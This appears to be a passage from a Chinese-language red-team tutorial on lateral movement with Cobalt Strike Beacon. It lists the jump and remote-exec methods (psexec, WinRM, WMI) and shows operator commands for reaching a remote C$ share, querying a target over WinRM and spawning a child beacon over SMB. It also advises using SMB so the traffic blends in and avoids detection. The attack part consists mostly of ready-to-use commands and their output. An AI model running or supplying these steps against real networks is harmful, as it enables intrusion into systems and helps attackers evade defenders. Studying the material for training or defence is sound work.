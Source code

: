 用法：```jump [method] [target] [listener]```

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## ```remote-exec```命令

用法：```remote-exec [method] [target] [command]```

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```


## ```powershell```和```execute-assembly```等Cobalt Strike内置的命令


通过列举C盘目录验证是否横向成功
```
ls \\srv-1\c$
```


## PowerShell Remoting

查询靶机架构
```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

```winrm```32位横向使用


```winrm64```64位横向使用



推荐使用 SMB 协议横向。SMB 协议在 Windows 环境中广泛使用，因此横向的时候可以和smb本身的流量融合在一起。
```
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```


WinRM返回的是一个高完整性的beacon，可以和远程计算机建立交互式的shell
```